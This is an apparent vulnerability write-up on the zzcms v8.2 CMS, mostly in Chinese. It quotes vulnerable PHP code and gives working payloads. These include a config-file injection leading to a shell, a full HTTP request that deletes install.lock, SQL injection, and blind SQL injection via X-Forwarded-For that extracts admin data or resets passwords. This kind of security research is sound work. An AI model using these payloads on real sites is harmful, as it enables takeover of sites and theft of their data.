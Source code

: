 # zzcms v8.2 && zzcms xmv8.2
## source code

## source
1. 组合getshell http://www.freebuf.com/column/166525.html
2. SQL注入 http://www.freebuf.com/vuls/161888.html

## fingerprint
`http://url/image/zzcms-color.gif`

# analysis

### install 配置文件任意内容写入
install/index.php 91
```
case '5'://安装进度
		function dexit($msg) {
			echo '<script>alert("'.$msg.'");window.history.back();</script>';
			exit;
		}
		
		$conn=connect($db_host,$db_user,$db_pass,'',$db_port);
		if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
		$db_name or dexit('请填写数据库名');
		if(!select_db($db_name)) {
			if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
		}
		
		//保存配置文件
		$fp="../inc/config.php";
		$f = fopen($fp,'r');
		$str = fread($f,filesize($fp));
		fclose($f);
		$str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
		$str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
		$str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
		$str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
		$str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
		$str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
		$str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
		$f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
		fputs($f,$str);//把替换后的内容写入文件
		fclose($f);
		//创建数据
		include 'step_'.$step.'.php';
		break;
```
写入位置`$url`,将闭合字符串，类似`');phpinfo();//`

### 任意文件删除
`grep -i -r 'unlink(' *` 查找文件删除函数，具体可以找到几个前台的点，`user/del.php`,`user/ppsave.php`,`user/ztconfig.php`,`user/zssave.php`
这里拿user/ztconfig.php做分析
user/ztconfig.php 68
```
if($oldbannerbg<>$bannerbg && $oldbannerbg<>"/image/nopic.gif" && $oldbannerbg<>"" ) {
	$f="../".$oldbannerbg;
	if(file_exists($f)){
	unlink($f);
	}
}
```
用burp生成数据包
```
POST /user/ztconfig.php HTTP/1.1
Host: 10.254.254.254
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: XDEBUG_SESSION=XDEBUG_ECLIPSE; bdshare_firstime=1522576407866; PHPSESSID=sg029uce7fh0o0f2s3jch4r575; UserName=admin; PassWord=0192023a7bbd73250516f069df18b500
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

action=modify&oldimg=install/install.lock&img=123
```
删除了install.lock，利用上面的配置文件写入造成getshell(注意这里需要cookie有用户信息，也就是先登陆)

### SQL注入
由于系统对_GET、_POST、_COOKIE过了一边zc_check，所以只能尝试找数字型或者不用闭合单双引号的点
user/del.php 139
```
$sql="select id,editor from ".$tablename." where id ='$id'";
```
其中tablename可控，构造payload即可，其中zzcms_answer有同样的键
`zzcms_answer where if(1,sleep(5),1)+--+`

### 登陆处盲注(复现时发现的另一个漏洞，后来发现已经有前辈发现了)
造成漏洞的函数getip(), inc/function.php  100
```
function getip(){ 
    if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown"))
        $ip = getenv("HTTP_CLIENT_IP");
    else if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown"))
        $ip = getenv("HTTP_X_FORWARDED_FOR");
    else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown"))
        $ip = getenv("REMOTE_ADDR");
    else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown"))
        $ip = $_SERVER['REMOTE_ADDR'];
    else
        $ip = "unknown";
    return($ip);
} 
```
未对ip做检验，查找一下getip()的调用，发现user/logincheck.php 18
```
$ip=getip();
define('trytimes',5);//可尝试登录次数
define('jgsj',10*60);//间隔时间，秒
$sql="select * from zzcms_login_times where ip='$ip' and count>=".trytimes." and unix_timestamp()-unix_timestamp(sendtime)<".jgsj." ";
$rs = query($sql); 
$row= num_rows($rs);
```
直接带入SQL查询，造成SQL盲注。payload可以放在X-Forwarded-For处
如 `X-Forwarded-For: 127.0.0.4' and if((select substr(admin,1,1) from zzcms.zzcms_admin limit 1)='a',sleep(5),1) -- +`

#### 关于getip()的另一种利用方式
除了上面带入select查询，发现还有update语句，所以可以同样更新用户账户密码。
step 1 找到目标用户名，创建一个与目标用户相同的用户(虽然有检验，但是可以通过最后发送前的修改，导致相同用户名的创建)
step 2 X-Forwarded-For处带上payload，如 `127.0.0.1',password='xxxx`

# PoC
continue
